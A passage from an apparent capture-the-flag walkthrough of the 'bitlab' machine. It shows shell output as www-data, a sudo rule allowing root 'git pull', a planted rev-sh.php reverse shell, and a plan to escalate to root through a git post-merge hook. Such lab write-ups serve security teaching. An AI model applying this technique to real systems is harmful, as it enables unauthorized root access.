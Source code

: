 We check if we have sudo rights, where is the home of www-data and what we found there:

```console
www-data@bitlab:/var/www$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/var/www$ getent passwd www-data
getent passwd www-data
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
www-data@bitlab:/tmp/profile$ cd /var/www/html/profile
cd /var/www/html/profile
www-data@bitlab:/var/www/html/profile$ ls -la
ls -la
total 144
drwxr-xr-x 3 root root  4096 Jan 10 19:56 .
drwxr-xr-x 5 root root  4096 Jul 30 12:37 ..
drwxr-xr-x 8 root root  4096 Jan 10 20:02 .git
-rw-r--r-- 1 root root    42 Feb 26  2019 .htaccess
-rw-r--r-- 1 root root   110 Jan  4  2019 README.md
-rw-r--r-- 1 root root 93029 Jan  5  2019 developer.jpg
-rw-r--r-- 1 root root  4184 Jan  4  2019 index.php
-rw-r--r-- 1 root root  5493 Jan 10 19:55 rev-sh.php    
```

So far we know that the repos of git are under ```/var/www/html/``` and that we are allowed to do a git pull with sudo rights inside the repos, this is what we will be using to get root by taking advantage of the webhooks enabled in gitlab (post-merge hook) and the ability to run git pull with root rights (```git pull``` is like git fetch and git merge in one for saying it in a way), for understanding how these 2 things work, jump into the documentation of [hooks: post merge](https://git-scm.com/docs/githooks#_post_merge) and the one for [git pull](https://git-scm.com/docs/git-pull).

Our repo doesn't allow us to edit files there, so we copy the repo to a place where we have them:

```console
www-data@bitlab:/var/www/html$ cp -r profile /tmp/profile
cp -r profile /tmp/profile
www-data@bitlab:/tmp/profile$ ls -la
ls -la
total 148
drwxr-xr-x 4 www-data www-data  4096 Jan 10 20:08 .
drwxrwxrwt 3 root     root      4096 Jan 10 20:03 ..
drwxr-xr-x 8 www-data www-data  4096 Jan 10 20:03 .git
-rw-r--r-- 1 www-data www-data    42 Jan 10 20:03 .htaccess
-rw-r--r-- 1 www-data www-data   110 Jan 10 20:03 README.md
-rw-r--r-- 1 www-data www-data 93029 Jan 10 20:03 developer.jpg
-rw-r--r-- 1 www-data www-data  5493 Jan 10 20:03 foo
-rw-r--r-- 1 www-data www-data  4184 Jan 10 20:03 index.php
drwxr-xr-x 3 www-data www-data  4096 Jan 10 20:08 profile
-rw-r--r-- 1 www-data www-data  5493 Jan 10 20:03 rev-sh.php
```

